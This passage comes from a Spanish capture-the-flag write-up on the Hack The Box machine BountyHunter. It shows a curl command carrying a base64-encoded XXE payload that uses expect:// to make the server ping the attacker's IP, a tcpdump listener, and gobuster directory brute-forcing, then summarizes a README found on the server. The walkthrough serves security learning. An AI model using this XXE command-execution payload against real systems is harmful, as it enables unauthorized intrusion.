 ```
# curl --data-urlencode "data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZXhwZWN0Oi8vcGluZyAxMC4xMC4xNC4yMTQiPiBdPgogICAgICAgIDxidWdyZXBvcnQ+CiAgICAgICAgICAgICAgICA8dGl0bGU+UHJvb2Y8L3RpdGxlPgogICAgICAgICAgICAgICAgPGN3ZT4meHhlOzwvY3dlPgogICAgICAgICAgICAgICAgPGN2c3M+OS40PC9jdnNzPgogICAgICAgICAgICAgICAgPHJld2FyZD4zMDwvcmV3YXJkPgogICAgICAgIDwvYnVncmVwb3J0Pgo=" http://10.10.11.100/tracker_diRbPr00f314.php



(SECONDARY TERMINAL)
# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Al solo poder leer archivos, realizo una búsqueda mediante fuerza bruta de los ficheros y/o directorios que pudiesen estar ocultos en el servidor, para ver si así encuentro algún fichero de configuración o similar que pueda tener credenciales o información importante que me permita el acceso a la máquina.

```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -u http://10.10.11.100/

/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]   
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]      
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]       
/server-status        (Status: 403) [Size: 277]
```

Tras comprobar el contenido de los directorios descubiertos, veo un fichero "README.txt" en el directorio "resources", cuyo contenido es el siguiente:

![Fichero "README" en el directorio "resources" del servidor web](/assets/img/HTB/BountyHunter/readme.png)

Se trata de una lista de tareas en las que vemos 2 tareas que se han realizado y 2 tareas que no:
 - Se han corregido los permisos del grupo "developer" y se ha escrito el código para el "submit" del formulario del "Bounty Tracker".
 - En la ruta "portal" no se ha deshabilitado el usuario "test", no se ha deshabilitado la ausencia de contraseña y no se han pasado las contraseñas a formato hasheado. Además, no se ha conectado el "Bounty Tracker" a una base de datos (tal y como se veía en el mensaje que se mostraba al enviar el formulario).

Pero estos datos no me aportan mucha información más de la que ya conocía, por lo que pruebo a hacer una búsqueda de ficheros en formato .html, .txt y .php.
